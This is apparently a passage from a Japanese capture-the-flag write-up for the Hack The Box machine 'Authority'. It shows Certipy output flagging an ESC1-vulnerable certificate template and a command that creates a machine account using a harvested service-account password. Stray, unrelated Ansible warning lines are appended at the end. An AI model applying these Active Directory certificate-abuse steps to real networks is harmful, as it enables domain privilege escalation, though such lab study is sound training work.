 ```bash
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

```

ドメインコンピュータアカウントを作成
- マシンアカウントのみが証明書発行することができるので、マシンアカウントを作成する
```bash
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ certipy-ad account create \
  -u svc_ldap@authority.htb.corp \
  -p 'lDaP_1n_th3_cle4r!' \
  -target 10.129.35.185 \
  -user WIN-HACK3$
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : WIN-HACK3$
    unicodePwd                          : T5AePoKlec2isM6l
    userAccountControl                  : 4096
```

[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available